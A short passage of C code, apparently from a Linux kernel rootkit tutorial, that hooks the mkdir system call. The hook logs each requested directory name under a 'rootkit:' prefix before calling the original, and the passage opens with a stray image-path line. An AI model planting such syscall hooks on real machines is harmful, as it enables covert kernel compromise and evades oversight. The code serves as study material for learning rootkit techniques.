     orig_mkdir(regs);
    return 0;
}
#else
static asmlinkage long (*orig_mkdir)(const char __user *pathname, umode_t mode);

asmlinkage int hook_mkdir(const char __user *pathname, umode_t mode)
{
    char dir_name[NAME_MAX] = {0};

    long error = strncpy_from_user(dir_name, pathname, NAME_MAX);

    if (error > 0)
        printk(KERN_INFO "rootkit: trying to create directory with name %s\n", dir_name);

    orig_mkdir(pathname, mode);
    return 0;
}
#endif
```




